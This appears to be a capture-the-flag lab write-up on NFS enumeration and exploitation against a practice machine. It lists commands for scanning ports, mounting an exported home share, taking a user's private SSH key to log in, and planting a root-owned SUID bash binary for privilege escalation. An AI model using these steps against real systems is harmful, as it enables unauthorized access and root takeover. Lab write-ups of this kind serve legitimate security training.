 ### Conduct a thorough port scan scan of your choosing, how many ports are open?
22, 111, 2049, 34049, 42501, 44133, 5315

So 7 ports

### Which port contains the service we're looking to enumerate?
2049

### Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
Did `showmount -e 10.10.104.120` and found the '/home' directory

### Change directory to where you mounted the share- what is the name of the folder inside?
Did `sudo mount -t nfs 10.10.104.120:home /tmp/mount -nolock` where '/tmp/mount' is a directory I made inside of the '/tmp' directory.

Going into this directory found a directory called 'cappucino'

### Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?
Did an `ls -al` and found a '.ssh' directory.

### Which of these keys is most useful to us?
'id_rsa'


### Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)
Did `chmod 600 id_rsa` just in case.

Did `ssh -i id_rsa cappucino@10.10.104.120` and it worked. So Y


## Task 4 - Exploiting NFS

### What letter do we use to set the SUID bit set using chmod?
's'

### What does the permission set look like? Make sure that it ends with -sr-x.
By going `sudo chown root bash`
Then `sudo chmod +s bash` and `sudo chmod +x bash`

This will give the following permission:
'-rwsr-sr-x'
